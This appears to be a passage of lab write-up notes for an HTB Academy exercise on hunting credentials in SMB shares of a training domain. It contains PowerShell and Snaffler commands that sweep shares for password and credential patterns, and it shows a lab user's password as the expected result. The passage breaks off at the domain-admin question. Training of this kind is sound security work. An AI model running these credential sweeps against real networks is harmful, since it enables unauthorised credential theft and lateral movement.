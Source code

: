 #### Phase 4: Advanced Pattern Matching
```powershell
# Search for various credential patterns
Get-ChildItem -Path "\\DC01\IT" -Recurse -Include *.txt,*.ini,*.cfg,*.xml,*.ps1 |
    Select-String -Pattern "password|passwd|secret|user|admin"

# Search for domain-specific patterns
Get-ChildItem -Path "\\DC01\*" -Recurse -Include *.txt,*.cfg,*.ini |
    Select-String -Pattern "inlanefreight\\|INLANEFREIGHT\\|domain\\|administrator"

# Search for backup/auth-related files
Get-ChildItem -Path "\\DC01\*" -Recurse -Include *backup*,*auth*,*cred*,*password* |
    Select-Object FullName,LastWriteTime
```

### Lab Questions Analysis

#### Question 1: Domain User Credentials
**Objective**: Find valid credentials of another domain user in mendres accessible shares

**HTB Academy Methodology**:
```powershell
# Step 1: Use PowerShell domain pattern search in IT share
Get-ChildItem -Recurse -Include *.* \\DC01.inlanefreight.local\IT | Select-String -Pattern "INLANEFREIGHT\\"

# Expected result:
# \\DC01.inlanefreight.local\IT\Tools\split_tunnel.txt:5:# Auth backup password: INLANEFREIGHT\jbader:ILovePower333###

# Step 2: Extract discovered credentials
# Username: jbader
# Password: ILovePower333###
```

**Alternative Search Methods**:
```cmd
# Automated tool approach
Snaffler.exe -s -u  # Include user enumeration from AD

# Manual pattern search across shares  
Get-ChildItem -Path "\\DC01\*" -Recurse -Include *.txt,*.ini,*.cfg |
    Select-String -Pattern "user.*=|username.*=|login.*=" -Context 2

# Authentication file discovery
Get-ChildItem -Path "\\DC01\*" -Recurse -Include *auth*,*login*,*user* |
    ForEach-Object { Get-Content $_.FullName | Select-String "password|pass" }
```

#### Question 2: Domain Administrator Password
**Objective**: Use discovered user credentials to access additional shares and find domain admin password
